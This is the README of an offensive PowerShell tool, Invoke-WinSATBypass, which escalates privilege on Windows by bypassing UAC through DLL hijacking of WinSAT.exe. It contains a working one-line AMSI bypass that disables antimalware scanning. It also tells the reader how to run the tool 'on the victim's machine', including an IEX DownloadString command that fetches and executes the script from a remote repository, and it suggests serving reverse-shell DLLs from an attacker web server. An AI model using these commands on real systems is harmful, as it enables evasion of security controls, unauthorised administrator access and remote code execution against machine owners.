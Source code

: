 # Invoke-WinSATBypass

## Description

This script will create a mock directory of `"C:\Windows\System32"` and copy a legitimate application of Windows (`WinSAT.exe`) into it. 

It will after try to download a DLL called `version.dll`, which is loaded by default by `WinSAT.exe`, in order to perform a UAC Bypass by doing some DLL Hijacking.

There is a pre-compiled DLL in the project folder that will only launch a CMD instance as Administrator. 

If you want to execute any other payload (reverse-shell, user add-on, etc...), you will need to compile a DLL yourself and serve it on your local web server

## Demo
![Demo](/img/demo.gif)

## How to Run Invoke-WinSATBypass
---

### AMSI Bypass

In most case, running this script will require us to bypass the Antimalware Scan Interface (AMSI). We can do so by typing the following command in a Powershell instance

```
[Ref].Assembly.GetType('System.Management.Automation.Amsi'+"Utils").GetField("amsiInit"+"Failed","NonPublic,Static").SetValue($null,$true);
```
### Running the script locally

If you got the script locally on the victim's machine, you can run the script like this:

```
. .\Invoke-WinSATBypass.ps1
Invoke-WinSATBypass -HTTPServerIP [IP_ADDRESS]
```

### Running the script as a string downloaded from the repo

If you prefer to fetch the script directly from the repo without having it on the disk:

```
IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/b4keSn4ke/Invoke-WinSATBypass/main/Invoke-WinSATBypass.ps1');
Invoke-WinSATBypass -HTTPServerIP [IP_ADDRESS]
```
---